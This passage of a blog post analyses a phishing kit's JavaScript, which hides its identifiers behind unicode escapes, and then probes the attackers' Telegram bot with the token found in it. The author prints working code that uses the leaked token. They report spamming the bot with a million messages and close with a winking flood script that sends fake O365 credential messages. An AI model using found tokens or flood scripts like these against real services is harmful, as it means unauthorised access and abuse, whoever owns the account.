We have the unicode codepoint of `006d` (the `\u` indicates that it's a unicode escape) and if we refer to a [unicode lookup table](https://unicode-table.com/en/) we'll see that `006d` is `m`, meaning that we have an identifier of `email`. Bet you didn't guess THAT did you!

Clearly, this particular version of the file has gone **hard** on the unicode identifiers, even down to `\u0064\u006fc\u0075m\u0065\u006e\u0074.write`, which is just `document.write`.

This brings us to the question of _why_, why would you convert all the JavaScript, or at least some of it, to unicode? I can only speculate, but I'd assume that they are doing it as a layer of obfuscation, it's just another thing that makes the code less readable to anyone who goes snooping around in it and make them think that maybe it is legitimate in what it's doing. It does come at the expense of size, going from 8.6KB to 17.8KB, which is why this isn't a common form of obfuscation for served JavaScript, but if you're running an offline file like this, it doesn't really matter.

## Digging into Telegram

In the last post I was saddened by the fact that I couldn't use the Telegram API with the token that was in the email body as it was no longer authorised. This time though, I'm pleased to say that it **is** active, at least at the time of writing!

So, let's poke it.

From the JavaScript, we can see that the token is used to call the `bot` parts of the API, suggesting that it's a valid bot token and nothing more, but let's start trying to figure out the user info for the bot. I'm going to do this in JavaScript, for something a bit different, and we'll start by getting the bot and chat info:

```javascript
import "dotenv/config";

(async () => {
  const token = process.env.TELEGRAM_TOKEN || "";
  const chat_id = process.env.CHAT_ID || "";
  const telegramAPIBase = `https://api.telegram.org/bot${token}`;

  let res = await fetch(`${telegramAPIBase}/getMe`, { method: "POST" });
  let json = await res.json();
  console.log("me", json);

  res = await fetch(`${telegramAPIBase}/getChat`, {
    method: "POST",
    body: JSON.stringify({ chat_id }),
    headers: {
      "Content-Type": "application/json",
      "cache-control": "no-cache",
    },
  });
  json = await res.json();
  console.log("chat", json);
})();
```

This sees the following dumped to the console:

```
me {
  ok: true,
  result: {
    id: 5742807394,
    is_bot: true,
    first_name: 'countduque',
    username: 'countduque11_bot',
    can_join_groups: true,
    can_read_all_group_messages: false,
    supports_inline_queries: false
  }
}
chat {
  ok: true,
  result: {
    id: 5486255038,
    first_name: 'Count',
    last_name: 'Duque',
    type: 'private'
  }
}
```

So our bot is named `countduque` and they are in a private chat (which isn't surprising really), but what is surprising, and somewhat annoying, is that the user has `can_read_all_group_messages` set to `false`, which [is the default for bots](https://core.telegram.org/bots#privacy-mode). The impact of this is that the bot is unable to read out the messages of the chat. I had assumed that they were using the bot as the input and output processing, but it seems like it's just feeding the data in and either they have a person on the other end that reads the messages, or a different bot that reads them. Given the semi-structured nature of the input, I'm guessing they have another bot that's reading the messages.

To validate, I use the `getUpdates` endpoint, but through all my testing, I was unable to get back any messages, even when I submitted them I was unable to read them back immediately... _queue sad face_.

I guess that I'm not going to be able to get much further with this bot... so instead I spammed it with 1000000 fake messages... _as you do_.

## Summary

I'm enjoying this exploration into the spammer emails. It was interesting to see the use of unicode for identifier names as a way to obfuscate the code a little more (at least, so I assume), and I'm not surprised that I wasn't able to pull the messages from the Telegram chat, just saddened that I couldn't.

I'll just have to keep an eye out for the next one that comes in and see if I can learn any more.

Oh, and I'd totally not encourage anyone to use the token/chat ID that was in this to run code such as this:

```javascript
  for (let i = 0; i < 1000000; i++) {
    const message = `====== O365 Result ======\\r\\nEmail: ${email}\\r\\nPassword1: ${password}\\r\\nPassword2: ${password}\\r\\nIP: https://ip-api.com/0.0.0.0\\r\\nUser-Agent: Mozilla/4.02 [en] (X11; I; SunOS 5.6 sun4u)\\r\\n===================`;
    fetch(`${telegramAPIBase}/sendMessage`, {
      method: "POST",
      body: JSON.stringify({ chat_id: chat_id, text: message }),
      headers: {
        "Content-Type": "application/json",
        "cache-control": "no-cache",
      },
    });
  }
```

I really wouldn't... 😏
